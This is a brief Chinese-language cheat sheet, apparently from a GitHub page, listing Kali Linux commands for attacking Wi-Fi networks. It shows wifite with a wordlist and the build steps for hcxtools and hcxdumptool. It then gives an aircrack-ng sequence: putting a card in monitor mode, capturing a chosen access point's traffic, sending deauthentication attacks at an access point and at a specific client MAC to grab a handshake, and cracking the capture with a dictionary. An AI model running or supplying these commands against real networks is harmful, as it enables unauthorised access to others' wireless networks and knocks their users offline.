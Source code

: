  #### wifite
	Kali下工具wifite，加载网卡，开启监听模式，#airmon-ng check kill
	>airmon-ng start wlan1
	安装hcxtools v4.2.0或更高版本，hcxdumptool v4.2.0或更高版本
	>apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev libpcap-dev
	>git clone https://github.com/ZerBea/hcxtools
	>cd hcxtools
	>make
	>make install 
	>git clone https://github.com/ZerBea/hcxdumptool
	>cd hcxdumptool
	>make
	>make install
	>wifite –-dict /root/Desktop/wordlist.txt  加载
 #### Aircrack-ng
	>airmon-ng start wlan0 开启监听模式
	>airodump-ng wlan0mon  查看数据包
	>airodump-ng –c 1 –bssid APmac –w name wlan1mon保存某AP数据包
	>aireplay-ng –deauth 10 –a APmac wlan0mon  deauth攻击
	>aireplay-ng -0 2 -a C8:3A:35:30:3E:C8 -c B8:E8:56:09:CC:9C wlan0mon deauth攻击某个设备直至获取handshake(握手包)
	>airmon-ng stop wlan0mon  关闭监听模式
	>aircrack-ng –w wordlist.txt name.cap 指定字典破解密码